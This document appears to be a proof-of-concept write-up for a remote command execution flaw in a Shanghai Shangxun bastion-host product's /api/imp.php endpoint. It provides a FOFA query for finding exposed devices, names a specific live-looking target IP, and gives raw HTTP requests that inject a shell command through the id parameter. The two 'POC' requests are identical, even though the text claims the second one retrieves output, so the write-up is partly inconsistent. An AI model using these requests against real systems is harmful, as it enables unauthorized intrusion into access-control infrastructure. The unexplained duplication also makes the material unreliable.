




#### Shanghai Shangxun Information Technology Co., Ltd_Fortress machine_/api/imp.php interface RCE

##### FOFA statement：

```
body="default/getloginhtml"
```

##### Vulnerability details：

If you run poc1 and then poc2, you can return the commands executed in poc1 to the 1.txt.

target:https://58.34.251.124:30443/

##### POC1：



```
GET /api/imp.php?type=immediate&id=|id%3E1.txt| HTTP/1.1
Host: 58.34.251.124:30443
Connection: keep-alive
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: localecookie=a%3A3%3A%7Bs%3A12%3A%22DEFAULT_LANG%22%3Bs%3A11%3A%22zh_CN.UTF-8%22%3Bs%3A12%3A%22FIELD_PREFIX%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22PACKAGE%22%3Bs%3A3%3A%22oma%22%3B%7D; PHPSESSID=4ce3c4182e3a2d2684bb6964f4a16842
```



##### POC2：



```
GET /api/imp.php?type=immediate&id=|id%3E1.txt| HTTP/1.1
Host: 58.34.251.124:30443
Connection: keep-alive
sec-ch-ua: "Not A(Brand";v="8", "Chromium";v="132", "Google Chrome";v="132"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/132.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br, zstd
Accept-Language: zh-CN,zh;q=0.9
Cookie: localecookie=a%3A3%3A%7Bs%3A12%3A%22DEFAULT_LANG%22%3Bs%3A11%3A%22zh_CN.UTF-8%22%3Bs%3A12%3A%22FIELD_PREFIX%22%3Bs%3A0%3A%22%22%3Bs%3A7%3A%22PACKAGE%22%3Bs%3A3%3A%22oma%22%3B%7D; PHPSESSID=4ce3c4182e3a2d2684bb6964f4a16842
```


